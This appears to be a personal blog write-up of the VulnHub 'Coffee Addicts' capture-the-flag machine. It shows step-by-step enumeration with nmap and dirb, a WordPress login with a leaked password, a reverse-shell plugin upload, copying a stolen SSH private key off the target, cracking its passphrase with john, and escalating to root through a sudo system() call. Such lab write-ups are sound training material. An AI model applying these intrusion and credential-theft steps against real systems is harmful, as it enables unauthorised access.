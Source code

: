 ```yaml
---
title: "Coffee Addicts : Write Up"
date: "2024-06-22T01:00:00+07:00"
draft: false
categories: "write-up"
tags: ["boot2root", "vulnhub", "ctf"]
cover:
  image: "/2024/1/cover.png"
  # can also paste direct link from external site
  # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
  alt: "Coffee Addicts"
  caption: "Coffee Addicts"
  relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```

#### The challenge is based on : https://www.vulnhub.com/entry/coffee-addicts-1,699/  
another vulnhub boot2root machine, well let's get started! first of all let's use netdiscover to see where the machine is.  

```bash
$ sudo netdiscover
```
![Netdiscover](/2024/1/1.png)

i retrieved the machine as 192.168.3.16, now let's enumerate it with nmap.  
```bash
$ nmap 192.168.3.16 -A
```
![nmap](/2024/1/2.png)

Now we get 80 and 22 which means it has a website and an SSH open for us, let's check the website  
```plain
192.168.3.16:80
```
![3](/2024/1/3.png)
it prompts us to add coddeeaddicts.thm to our hostsfile… fair enough.  
![4](/2024/1/4.png)
it's done and what is this?  
![5](/2024/1/5.png)
this BadByte looks bad… let's see what's beyond this using dirb

```bash
$ dirb http://coffeeaddicts.thm/ "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"
```
![6](/2024/1/6.png)
looks like it has /wordpress site let's check it out!  
![7](/2024/1/7.png)
it looks fantastic for me, now what's beyond this? after i opened the first post it has something interesting…  
![8](/2024/1/8.png)
now password?? alright let's see the post and try to guess which one for our /wp-admin, and it turns out it's just  
```plain
gusineedyouback
```
![9](/2024/1/9.png)
we're in! now what we can do now is to upload a plugin that is capable doing a reverse shell, the payload that i'm using is from a wonderful webiste called sevenlayers go check that out!  
> https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

![10](/2024/1/10.png)
![11](/2024/1/11.png)
![12](/2024/1/12.png)
nice! now let's look around on our /home  
![13](/2024/1/13.png)
if we go to the gus directory and we can see the user.txt  
![alt](/2024/1/14.png)
first flag done now what about the readme.txt?  
![alt](/2024/1/15.png)
nothing we can do except going to BadByte home directory  
![alt](/2024/1/16.png)
the .ssh/ folder containing the id_rsa, we can use this.  
![alt](/2024/1/17.png)
let's extract it! on our victim machine we run :  
```bash
$ python3 -m http.server 8080
```
on our attacker machine we run :  
```bash
$ curl coffeeaddicts.thm:8080/id_rsa
$ chmod 600 id_rsa
```

if we do ssh into coffeeaddicts we are prompted with passphrase for our id_rsa… let's bruteforce it using ssh2john  
```bash
$ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```
and then run the ssh2john to hash our id_rsa

```bash
$ python3 ssh2john.py id_rsa | tee hash
```

finally we crack it open using john
```bash
$ john hash --wordlist="/usr/share/wordlists/rockyou.txt"
```
![alt](/2024/1/18.png)
we made it! the passphrase is just good ol'
```plain
password
```

now let's ssh into the machine as badbyte for the passphrase and password is the same.  
```bash
$ ssh badbyte@coffeeaddicts.thm -i id_rsa
```
![alt](/2024/1/19.png)
we're in finally let's see the .bash_history if the badbyte guy doing anything  
![alt](/2024/1/20.png)
yup he surely did! there's something on /opt/BadByte let's check it out  
![alt](/2024/1/21.png)
hmm let's see what's this all about  
![alt](/2024/1/22.png)
it's a system command call, what if we run sudo on this machine just like what he did.  
![alt](/2024/1/23.png)
now the system() is considered as root since we pass sudo. to prove my assumption we run whoami :  
![alt](/2024/1/25.png)
as expected, now let's actually become root by using  
```bash
$ su
```
![alt](/2024/1/26.png)

it's officially game over let's see the /root/root.txt for our flag  
![alt](/2024/1/27.png)